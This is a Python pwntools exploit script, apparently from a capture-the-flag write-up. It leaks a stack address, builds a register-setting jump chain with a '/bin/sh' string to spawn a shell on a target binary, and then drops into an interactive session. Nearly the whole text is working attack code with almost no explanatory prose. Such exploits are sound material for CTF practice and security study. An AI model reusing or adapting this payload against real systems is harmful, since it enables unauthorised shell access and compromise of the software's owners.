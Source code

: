 ```python
#    0x401049:    jmp    QWORD PTR [rcx]

def exploit():
    global io

    io = initialize()
    stack = u64(io.recv(8))

    payload = b''
    payload += flat([
        stack-0x4b+0x18-0x4-0xb,# rdi (start of  (stack-0x6b)) also points to -> &(0x40105a)
        0x0,                    # rdx
        stack-0x4b+0x25,        # rsi -> points to &(0x40103c)
        0x38,                   # rcx
        0x40103c,               # is *(stack-0x4b+0x25), i.e. target for `jmp QWORD PTR [rsi-0x25]`
    ])
    payload += b'\x00/bin/sh'
    payload += p32(0x0) + p32(0x40105a)
    payload += b'\x00' * (99-len(payload))
    payload += flat([
        0x401000,               # will go to rbx
        (stack-0x6b)
    ])
    io.send(payload)

    log.success('stack: %#x', stack)
    log.success('new rsp: %#x', stack-0x6b)
    io.interactive()
    
if __name__ == '__main__':
    exploit()

```
{% endcode %}
